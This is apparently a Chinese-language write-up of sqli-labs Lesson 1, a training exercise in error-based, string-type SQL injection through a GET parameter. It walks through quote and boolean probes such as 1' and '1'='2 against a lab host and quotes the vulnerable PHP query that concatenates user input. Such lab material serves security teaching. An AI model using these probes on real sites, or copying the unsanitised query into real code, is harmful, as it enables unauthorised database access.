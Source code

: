 # sqli-labs lession 1 (基于错误的GET单引号字符型注入) #
---
## 登录界面 ##
![1](https://i.imgur.com/7iOF74D.png)
## 手注 ##

### 判断注入类型 ###
>sqli-labs 第一课很人性化地给予提示,在url处添加id。


`http://10.60.250.214/Less-1/?id=1`
![2](https://i.imgur.com/wwGtJ0S.png)
>由于是get请求方法,以后碰到就直接填写了。

输入单引号

`http://10.60.250.214/Less-1/?id=1'`

![3](https://i.imgur.com/Kgh75tO.png)

引起报错
`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

根据报错信息,猜测加入的id'参数在SQL语句中应该被对称的单引号包含。

继续验证猜想:

`http://10.60.250.214/Less-1/?id=1' and '1'='1`

页面正常，这里不贴图了

继续检验

`http://10.60.250.214/Less-1/?id=1' and '1'='2`

页面异常

![4](https://i.imgur.com/6u8cFW1.png)

存在字符型的注入

在搭建的服务中可以查看SQL语句是怎么写的,就是下图中标记部分

![5](https://i.imgur.com/vibteUL.png)

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

通过get请求提交的数据会被$id接收,举个例子，上图中`1' and '1'='2`就是我手动输入的部分,在SQL语句中就变成这样:

`SELECT * FROM users WHERE id='1' and '1'='2' LIMIT 0,1`

可以发现我构造的单引号与SQL语句中的单引号形成了对称,最终变成了一个正常的SQL语句。
